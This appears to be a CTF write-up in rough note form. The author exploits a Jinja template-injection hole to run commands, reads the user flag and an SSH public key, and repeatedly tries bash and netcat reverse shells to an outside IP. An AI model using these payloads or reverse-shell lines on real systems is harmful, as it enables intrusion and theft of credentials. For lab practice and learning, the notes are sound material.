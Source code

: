 bash -i >& /dev/tcp/10.10.14.47/4464 0>&1
`
No luck.    Went back to the id_rsa format issue, maybe I can search on this:

Starting openssh 7.6, it defaults to a new more secure format. You can force it to convert to that format using the commands below to change your key password. In case you don't have and/or don't want a password, you can simply press enter and it will still rewrite the key in the new format
ssh-keygen -f id_rsa -p

Tried cracking it first.. I think there is a translation problem here, not a valid key file for ssh2john.py either...

So, I can maybe try a quick nc shell lol, thought of it while trying to think of a way to copy id_rsa.. which nc worked

but, can't get nc 10.10.14.47 4464 -e /bin/bash to work

Still cant get back to my box on 4464, tried 443:
`
bash -i >& /dev/tcp/10.10.14.47/443 0>&1
`
no luck there either.  Tried grabbing the user flag as i need to at least get this.. Maybe a break will help

CMD (or 'exit')> cat ../user.txt
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('cat ../user.txt').read() }}
a4c1dec55450dacf59b6c0e5b12781d2

Found a way around the slashes in navigation, kind of??
`
CMD (or 'exit')> cd templates ; cat result.html
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('cd templates ; cat result.html').read() }}
{% include &#34;header.html&#34; %}

{% block body %}
    <div class=&#34;container&#34;>
        <br>
        <br>
        <h1>Results</h1>
        <hr>

        <h2>Information</h2>
        <p>Words: {{ words }}</p>
        <p>Scan time: {{ time }} seconds</p>
        <hr>

        <h2>Extracted text</h2>
        <p>{{ text }}</p>
    </div>
{% endblock body %}

{% include &#34;footer.html&#34; %}
`
used this to grab the pub_key!! yay
`
CMD (or 'exit')> cd ../.ssh ; cat id_rsa.pub
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('cd ../.ssh ; cat id_rsa.pub').read() }}
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCp7ldYUpWqV4LJ/M+jgex9FHy4X8//dOf5+IBQeGca8EEDKsweI/dL8Oep0gfa6pNd0+Th4Z1fKfMycVHNthv5wFr5HxP+dNrc9K5H22SKqFdNoQ5uCNFLKevY24NY9CFfw6aEAp0mFl8StlRxvGK6dysqegKVktDplkNo1O1NTClRoyL+a1ofMsgPUpOX51QWwtBiZ1FQDrf3GTPVi8MXk5sgOh4eA5TutlXhOoDqzqAjtbt3Xfszc6LZZNZEHNxZMAzB9InZwS229L8CcT8HYR6WPWyFhRm4/IiguFIyJwaeEHvsgqll5D4yCSxFwcnl8naG9O79PfIv22CB/0Ox svc_acc@late
`
